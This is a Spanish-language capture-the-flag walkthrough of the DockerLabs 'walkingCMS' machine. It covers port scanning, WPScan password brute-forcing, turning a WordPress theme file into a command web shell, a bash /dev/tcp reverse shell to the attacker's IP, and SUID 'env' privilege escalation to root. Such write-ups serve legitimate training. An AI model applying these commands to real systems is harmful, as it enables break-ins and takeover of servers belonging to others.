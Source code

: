 # walkingCMS

#### Descripción:

Pequeño Lab en modo **easy** de dockerlabs.

#### Enlaces:

[Descarga](https://mega.nz/file/hSF1GYpA#s7jKfPy1ZXVXpxFhyezWyo1zCUmDrp7eYjvzuNNL398)
[Dockerlabs](https://dockerlabs.es/)

---

## Reconocimiento

Se asume que la máquina objetivo se encuentra correctamente desplegada dentro de nuestra red de laboratorio (en este caso, utilizando Docker).
Dado que la dirección IP del objetivo es proporcionada o fácilmente identificable dentro del entorno controlado, esta fase puede clasificarse como **reconocimiento pasivo**.

En un escenario real, el reconocimiento pasivo se orienta a recopilar información sin interactuar directamente con el sistema objetivo (por ejemplo, utilizando fuentes OSINT, registros públicos o información de infraestructura).
En este caso particular, al tratarse de un laboratorio aislado, la obtención de la IP se considera suficiente para dar inicio a la fase de enumeración activa.

![enter image description here](https://i.imgur.com/3XmtBs3.png)

---

## Escaneo

Como primer paso, se realizó un escaneo general de puertos y servicios con la herramienta **Nmap**, con el objetivo de identificar qué servicios se encuentran expuestos en el sistema objetivo (target) y obtener un panorama inicial de la superficie de ataque.

El comando ejecutado fue el siguiente:

    nmap -p- --open -sC -sC -sV --min-rate 5000 -n -Pn 172.17.0.2

- **-p-** → Escanea todos los puertos TCP (1 al 65535).

- **--open** → Muestra únicamente los puertos abiertos.

- **-sC** → Ejecuta los scripts por defecto de Nmap (NSE) para detección básica de vulnerabilidades y configuraciones inseguras.

- **-sV** → Intenta identificar la versión de los servicios en ejecución.

- **--min-rate** 5000 → Acelera el escaneo estableciendo un mínimo de 5000 paquetes por segundo.

- **-n** → Evita la resolución DNS para mayor rapidez.

- **-Pn** → Omite la fase de descubrimiento de host (se asume que el host está activo).

- **172.17.0.2** → Dirección IP asignada a la máquina víctima dentro del entorno Docker.

![enter image description here](https://i.imgur.com/1WvtOWR.png)

### Resultados del escaneo

El escaneo realizado con Nmap reveló que el puerto **80/tcp** se encuentra abierto y asociado al servicio HTTP. Esto indica la presencia de un servidor web en ejecución dentro del objetivo.

Con esta información inicial, se procedió a validar el hallazgo accediendo mediante un navegador a la dirección: `http://172.17.0.2` De esta manera, se confirma la existencia de un servicio web activo en el sistema. A partir de este punto, se iniciará la fase de enumeración web, con el fin de identificar posibles directorios ocultos, archivos sensibles o vulnerabilidades presentes en la aplicación expuesta. que hay un servicio web en efecto.

![enter image description here](https://i.imgur.com/RAoQPtY.png)

---

### Enumeración

El objetivo de esta fase es detectar posibles rutas ocultas o sensibles que puedan ser utilizadas para obtener información adicional del sistema o ser explotadas como vectores de ataque.

Para esta tarea se empleó la herramienta **Gobuster**, la cual permite realizar un ataque de fuerza bruta sobre el árbol de directorios utilizando listas de palabras previamente definidas.

    gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,txt,html,php.bak

**Nota**: Podríamos tener en cuenta las siguientes consideraciones antes de usar el gobuster:

- **seclists** → Es un directorio genérico de diccionarios que se pueden instalar en parrot y kali utilizando `sudo apt install seclists`
- **-x** → Es para definir las extensiones que queremos encontrar al escanear la web.

![enter image description here](https://i.imgur.com/Acs91Dy.png)

Tras la ejecución de Gobuster, se identificaron varios directorios accesibles dentro del servidor web. Entre ellos, uno de especial interés corresponde a `http://172.17.0.2/wordpress` por lo que si nos dirigimos al enlace visualizaremos una página de inicio.

![enter image description here](https://i.imgur.com/qAyX6Nu.png)

Una vez identificado el directorio `/wordpress`, se determinó que el servicio corresponde a un CMS WordPress.
Dado que este tipo de plataformas son propensas a vulnerabilidades relacionadas con su versión, plugins y temas instalados, se decidió realizar un análisis de seguridad empleando la herramienta **WPScan**.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp

![enter image description here](https://i.imgur.com/inH5Nxo.png)
![enter image description here](https://i.imgur.com/tSSdBwY.png)

Utilizar algun script con payloads personalizados o desde metasploit también sería una buena opción, para aprovechar el **xmlrpc** ya que practicamente es un fósil que presenta riesgos de seguridad.
Se identificó también que hay un tema activo y es el **twenty twentytwo**, algo que podría ser utilizado para explotar o algún plugin que tenga sus fallas o malas configuraciones a simple vista. En este caso el theme parece ser accessible desde una ruta en el navegador.
Por otro lado, hay un usuario llamado "mario" que podría resultar útil en un ataque de fuerza bruta, es por esto que se decide escanear nuevamente con el **wpscan** y añadirle nuevos parámetros como un diccionario de combinaciones de passwords como lo es rockyou y un usuario.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp --passwords /home/criollo/rockyou.txt --usernames mario --random-user-agent

![enter image description here](https://i.imgur.com/CQAVinl.png)

Con un ataque automático de brute force realizado por el wpscan y utilizando nuestro diccionario de combinaciones obtenemos la contraseña.
Si analizamos nuevamente con el gobuster pero utilizando el directorio de wordpress, encontraríamos otros resultados que nos ayudarían a conseguir la forma de loguear o utilizar las credenciales que obtuvimos.

![enter image description here](https://i.imgur.com/MfPg9z8.png)

---

## Explotación

A continuación, podremos notar que:

    http://172.17.0.2/wordpress/wp-login.php

Es una ruta que parece llevarnos al inicio de sesión de nuestro Wordpress, si intentamos con las credenciales y obtenemos acceso a la dashboard de la plataforma.
![enter image description here](https://i.imgur.com/Tcr1UUP.png)

Directamente se tuvo muy encuenta la revelación del wpscan con respecto al tema twenty twenty por lo que al saber que se puede acceder desde `http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php`
Podriamos usarlo para realizar una reverse shell editando el index.php, para eso dentro de la dashboard se posiciona en `Apariencia>Theme Code Editor`, luego se ubica el index.php y se editar, reemplazando el código original por un código php básico donde se reciba el query param **cmd**, una vez lo modifiquemos, le damos a **Update File** y ya podríamos acceder a la ruta del tema utilizando parámetros que en esta ocasión sería cmd=COMANDO.
![enter image description here](https://i.imgur.com/diWBn6X.png)

Un claro ejemplo de esto sería ejecutar un comando a nivel de terminal en linux (esta máquina es debian) como es el `ls` y obtener algo como:

![enter image description here](https://i.imgur.com/XZDGpMy.png)

### Reverse shell

Debido a que funciona, se puede utilizar un código en bash para ejecutar una reverse shell que nos permita establecer conexión desde shell. En este caso podríamos usar la de bash encontrada en [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), donde la IP será de nuetra máquina atacante al igual que el puerto de escucha.

Ejemplo:

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Aplicado sería:

    http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.0.1/443 0>%261"

**Notas**:

- Con el código de `%26`reemplazamos a la **&** y mejoramos la inyección de comando evitando errores.
- Se utilizó el puerto 443 en lugar del 8080
- Antes de ejecutar el webshell se utilizó netcat para ponerse a la escucha con el puerto designado `sudo nc -lvnp 443`

Luego de ejecutar el comando en la Web shell, conseguimos establecer conexión con nuestra máquina.
![enter image description here](https://i.imgur.com/dpYnHCI.png)

### Escalar privilegios

Moviéndose al `/home`se pueden buscar archivos en la raíz que permitan ser explotados o ejecutados para conseguir el `root`de la máquina.

    find / -perm -4000 2>/dev/null

![enter image description here](https://i.imgur.com/3lkIOGD.png)

Buscando en [GTFObins](https://gtfobins.github.io/gtfobins/env/) , `env` podría ser explotado de la siguiente manera con SUID obteniendo escalada de privilegios:

```
sudo install -m =xs $(which env) .

./env /bin/sh -p
```

Por lo que si lo aplicamos a nuestra máquina...
![enter image description here](https://i.imgur.com/HAivnyT.png)

Logramos comprometerla y obtener el usuario root.
